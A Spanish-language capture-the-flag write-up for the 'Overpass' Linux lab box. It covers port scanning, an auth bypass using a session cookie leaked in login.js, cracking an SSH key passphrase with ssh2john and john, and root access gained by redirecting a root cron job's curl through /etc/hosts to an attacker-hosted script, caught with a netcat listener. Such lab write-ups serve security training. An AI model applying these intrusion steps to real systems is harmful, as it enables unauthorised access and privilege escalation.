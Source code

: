 #Linux #Easy 
### nmap
```css
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### hacemos fuzzing con gobuster

![[Pasted image 20240612145427.png]]

### encontramos varios directorios interesantes asi que aprobar.
directorios interesantes:
```css
	/aboutus
	/admin
	/downloads
```

### en el subdirectorio admin encontramos un pagina de login la cual no parece ser vulnerable a sqli 

![[Pasted image 20240612145432.png]]

### vamos a mirar el codigo fuente en busca de mas informacion

![[Pasted image 20240612145437.png]]

### vemos que la pagina esta haciendo un llamado a tres script diferentes, revisando en cada uno de ellos podemos encontrar que el script /login.js alberga una cookie de session

![[Pasted image 20240612145442.png]]

### vamos a cambiar nuestra cookie por "SessionToken" para intentar acceder al login. esto lo haremos de la siguiente manera:

```c
	-click derecho
	 
	-inspeccionar
	 
	-storage
	
	-liego a +
	
	-editamos nuestro nombre de cookie por el que hemos conseguido
	
	-finalmente recargamos la pagina
```

![[Pasted image 20240612145452.png]]

### hemos baypaseado el login con una cookie que hemos encontrado lo que nos permite ver una informacion valiosa.

![[Pasted image 20240612145456.png]]

### ademas de una id_rsa encontramos un usuario llamado james. asi que podemos utilizar estas credenciales para  intentar acceder via SSH.

![[Pasted image 20240612145501.png]]

### parece que necesitamos la contraseña para poder utilizar el id_rsa. asi que usaremos ssh2john de la siguiente manera.

```c
ssh2john id_rsa > id_rsa.hash
```

### ahora usaremos john para intentar conseguir el passdword
```c
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

james13          (id_rsa)     

1g 0:00:00:00 DONE (2023-11-03 11:35) 16.66g/s 223200p/s 223200c/s 223200C/s pink25..cheergirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### conseguimos james13 como passdword para el id_rsa asi que vamos a probar con esto.

![[Pasted image 20240612145522.png]]

### conseguimos dos archivos. uno de ellos nos da informacion sobre un programa llamado overpass que alberga las contraseñas asi que vamos a buscar ese programa con el comando 
```c
	find / -name "overpass" 2>/dev/null
```

### parece que no conseguimos nada. vamos a buscar las tareas crontab

![[Pasted image 20240612145528.png]]

### tenemos una tarea crontab que se ejecuta cada minuto de cada dia de cada mes como el usuario root. esto podemos notarlo con los * que responden a cada opcion

este crontab hace un llamado con el comando curl sobre overpass.thm/downloads/src/buildscript.sh vamos a aprovechar esto para editar el /etc/hosts y de esta manera hacer que el overpass.thm apunte a nuestra maquina atacante.
![[Pasted image 20240612145532.png]]

### ok sabemos que la tarea crontab hace un curl sobre  overpass.thm/downloads/src/buildscript.sh hemos modificado el /etc/hosts para que apunte a nuestra maquina. ahora respetando la ruta exacta, tal cual se ejecuta en la tarea crontab nos montaremos un servidor en python para poder ejecutar esta tarea desde nuestra maquina atacante.

```c
	-creados una carpeta llamada 'downloads' dentro de esta carpeta creamos otra llamada 'src'
	y finalmente creamos un archivo llamado "buildscript.sh" 
	este archivo va a contener nuestra reverse shell
```

![[Pasted image 20240612145541.png]]
en  este caso usaremos la shell mas basica de todas en bash. 

### es importante saber que el curl hace el llamado a  overpass.thm/downloads/src/buildscript.sh en ese orden. por lo que debemos estar por detras de la carpeta  "downloads'' para que se ejecute correctamente.

ahora montamos un servidor en python de la siguiente manera:
```c 
	python3 -m http.server 80
```
esperamos un minuto mas o menos para que la tarea crontab se ejecute de nuevo
![[Pasted image 20240612145549.png]]
por otro lado estaremos escuchando con netcat
```c 
	nc -lvnp 444
```

![[Pasted image 20240612145553.png]]
### WE ARE ROOT
